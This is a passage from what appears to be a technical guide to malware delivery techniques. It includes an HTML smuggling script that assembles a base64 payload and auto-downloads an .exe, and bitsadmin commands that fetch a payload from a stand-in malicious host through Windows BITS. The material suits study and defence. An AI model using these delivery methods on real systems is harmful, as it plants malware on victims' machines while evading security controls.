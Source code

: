 ### Technical Implementation:
```html
<!-- Example structure (educational purposes only) -->
<script>
  // Base64 encoded payload split across variables
  var part1 = "base64_encoded_content_part1";
  var part2 = "base64_encoded_content_part2";
  
  // Construct blob and trigger download
  var fullContent = atob(part1 + part2);
  var blob = new Blob([fullContent]);
  var url = URL.createObjectURL(blob);
  
  // Automatic download trigger
  var a = document.createElement('a');
  a.href = url;
  a.download = 'filename.exe';
  a.click();
</script>
```

---

## 14. Through Windows BITS

**Definition:** Abuse of Windows Background Intelligent Transfer Service (BITS) to bypass network security controls and download malicious content.

### BITS Functionality:

#### A. Legitimate BITS Features:
- **Background Downloads:** Transfer files without user interaction
- **Bandwidth Throttling:** Automatically adjust download speed
- **Resume Capability:** Resume interrupted downloads
- **Network Awareness:** Pause during network congestion

#### B. Malicious BITS Abuse:
- **Stealth Downloads:** Download malicious files without detection
- **Proxy Bypass:** Use BITS proxy configuration to bypass restrictions
- **Persistence Mechanism:** Schedule recurring downloads
- **Living Off the Land:** Use legitimate Windows service for malicious purposes

### Implementation Commands:
```cmd
REM Create BITS job for malicious download
bitsadmin /create malicious_job
bitsadmin /addfile malicious_job http://malicious.site/payload.exe C:\temp\payload.exe
bitsadmin /setpriority malicious_job HIGH
bitsadmin /resume malicious_job

REM Monitor job status
bitsadmin /info malicious_job

REM Complete and execute
bitsadmin /complete malicious_job
```
